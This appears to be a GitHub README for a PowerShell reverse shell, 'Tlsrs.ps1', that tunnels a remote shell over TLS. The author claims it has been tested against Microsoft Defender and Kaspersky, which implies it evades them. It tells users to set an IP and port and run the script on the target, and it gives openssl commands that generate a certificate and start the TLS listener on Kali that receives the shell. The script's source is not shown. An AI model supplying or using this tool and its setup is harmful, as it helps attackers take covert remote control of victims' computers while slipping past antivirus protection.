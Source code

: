 # Powershell Scripts by me ;)
######################################################################################

Tlsrs.ps1 : This is a PowerShell ReverseShell that uses TLS to establish a TCP connection.
By now, this script has been tested on Microsoft Defender and Kaspersky ;)
On Target:
just change the IP and Port and run it in Powershell

On Kali:
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 4443
#######################################################################################



